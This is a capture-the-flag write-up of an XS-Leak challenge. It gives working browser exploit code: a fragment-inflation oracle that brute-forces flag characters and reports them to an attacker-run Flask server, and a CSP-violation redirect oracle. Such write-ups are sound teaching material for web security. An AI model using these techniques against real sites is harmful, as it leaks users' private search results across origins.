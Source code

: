 ```yaml
---
description: XS leak through cross-origin redirects — intended and unintended
---
```


# secrets

## Overview

> A secure and secret note storage system is a platform or application designed to keep your confidential notes safe from unauthorized access.

The challenge revolved around searching contents of secret notes.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.46.57 PM.png" alt=""><figcaption></figcaption></figure>

Let's examine the behaviour of the search feature.

When searching for a note through `/search?query=<query>`, there are two possible responses:

1. The note was found.

In this case, a 301 redirect is issued to `http://results.wtl.pw/results?ids=<note UUIDs>&query=<query>`.

```http
HTTP/1.1 301 MOVED PERMANENTLY
Server: nginx/1.23.3
Date: Sun, 19 Feb 2023 13:48:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 357
Connection: close
Location: http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&query=test
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&amp;query=test">http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&amp;query=test</a>. If not, click the link.
```

It is important to note that this is a redirect to a _different_ subdomain. Searching on **`secrets`**`.wtl.pw` redirects to **`results`**`.wtl.pw`.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.52.17 PM.png" alt=""><figcaption></figcaption></figure>

2. The note was not found.

In this case, a 301 redirect is issued to `http://secrets.wtl.pw/#<query>`.

```http
HTTP/1.1 301 MOVED PERMANENTLY
Server: nginx/1.23.3
Date: Sun, 19 Feb 2023 13:51:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 241
Connection: close
Location: http://secrets.wtl.pw/#asdf
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://secrets.wtl.pw/#asdf">http://secrets.wtl.pw/#asdf</a>. If not, click the link.

```

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.51.58 PM.png" alt=""><figcaption></figcaption></figure>

## Unintended Solution — Chrome's 2MB URL Limit

One thing that might be immediately noticeable is that if the note was found, then the resulting URL length is extended considerably by the `ids` parameter.

A [well-known technique](https://xsleaks.dev/docs/attacks/navigations/#inflation) in these kinds of scenarios is hitting the server's maximum URL limit, and detecting error status codes. However, these rely on `SameSite=None` cookies for the [error event detection](https://xsleaks.dev/docs/attacks/error-events/).&#x20;

The challenge had `SameSite=Lax` cookies, so the primitive for any XS-Leak attack is a top-level navigation (e.g. through `window.open`). There is no way to detect server response codes in a cross-origin window reference, so I started looking for other ways to detect the URL inflation.

We might not be able to detect a _server-side_ URL length error, but can we somehow detect a _client-side_ one? According to [Chromium documentation](https://chromium.googlesource.com/chromium/src/+/main/docs/security/url\_display\_guidelines/url\_display\_guidelines.md#URL-Length), Chrome's maximum URL length is 2MB.

> In general, the _web platform_ does not have limits on the length of URLs (although 2^31 is a common limit). _Chrome_ limits URLs to a maximum length of **2MB** for practical reasons and to avoid causing denial-of-service problems in inter-process communication.

This is where it gets interesting! Because this is a _client-side_ constraint, and URL fragments persist on redirects, we can open `/search?query=<query>#AAA...[2MB]...AAA` to hit the length limit.

So, what happens when the URL limit is exceeded?

Apparently, it shows an `about:blank#blocked` page.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.38.58 PM.png" alt=""><figcaption></figcaption></figure>

As you might expect, trying to access the `origin` (or any other sensitive information) of a cross-origin window reference would raise an exception.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.43.00 PM.png" alt=""><figcaption></figcaption></figure>

However, when opening a page that errors out due to the 2MB constraint, the window's `origin` remains that of the parent.

As an experiment, let's try a successful query.

```javascript
let url = "http://secrets.wtl.pw/search?query=test#"
let w = window.open(url + "A".repeat(2 * 1024 * 1024 - url.length - 1))
```

The length of the opened URL&#x20;

```
http://secrets.wtl.pw/search?query=test#AAA...AAA
```

is exactly 2MB - 1, so the initial search URL is just under the length limit.

When the window is redirected to

```
http://results.wtl.pw/results?ids=<note UUIDs>&query=test#AAA...AAA
```

the URL is extended and the length limit is hit. The window becomes an `about:blank` page and its `origin` remains that of the parent.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.54.16 PM.png" alt=""><figcaption></figcaption></figure>

Now, if we try the same thing on an unsuccessful query, the final redirected URL falls short of the 2MB limit and the window's `origin` is no longer accessible.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.54.42 PM.png" alt=""><figcaption></figcaption></figure>

This can be extended to the following PoC, which brute-forces a character of the flag.

```markup
<html>
<body></body>
<script>
    (async () => {

        const curr = "http://secrets.wtl.pw/search?query=HackTM{"

        const leak = async (char) => {
            
            fetch("/?try=" + char)
            let w = window.open(curr + char +  "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2))
            
            const check = async() => {
                try {
                    w.origin
                } catch {
                    fetch("/?nope=" + char)
                    return
                }
                setTimeout(check, 100)
            }
            check()
        }

        const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

        for (let i=0; i<CHARSET.length; i++) {
            leak(CHARSET[i])
            await new Promise(resolve => setTimeout(resolve, 50))
        }
    })()

</script>
</html>
```

Because this PoC only tells us what is definitely _not_ the flag (by detecting the `w.origin` errors), we can implement a backend server to quickly find what _is_ the flag by eliminating the unsuccessful queries from the charset.

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars
    
    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

The downside of this method is that the long URLs can cause significant lag on the server's admin bot. This _may or may not_ have made the bot extremely unstable for a period of time... oops!

## Intended Solution — CSP Violation

It turns out that there is a much faster and less laggy way of detecting the redirects. Because the redirect is to a different origin, we can use [CSP violations](https://xsleaks.dev/docs/attacks/navigations/#cross-origin-redirects) as an oracle.&#x20;

```markup
<meta http-equiv="Content-Security-Policy" content="form-action http://secrets.wtl.pw">
<form action="http://secrets.wtl.pw/search" method="get">
    <input type="text" name="query" value="test">
</form>

<script>
    document.addEventListener('securitypolicyviolation', () => {
        console.log("CSP violation!")
    });
    document.forms[0].submit();
</script>
```

Because the query was successful, the window attempted to load `http://results.wtl.pw`. But since our CSP dictates that forms can only be submitted to `http://secrets.wtl.pw`, the request was blocked. We can detect this through the `securitypolicyviolation` event listener.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 11.03.59 PM.png" alt=""><figcaption></figcaption></figure>
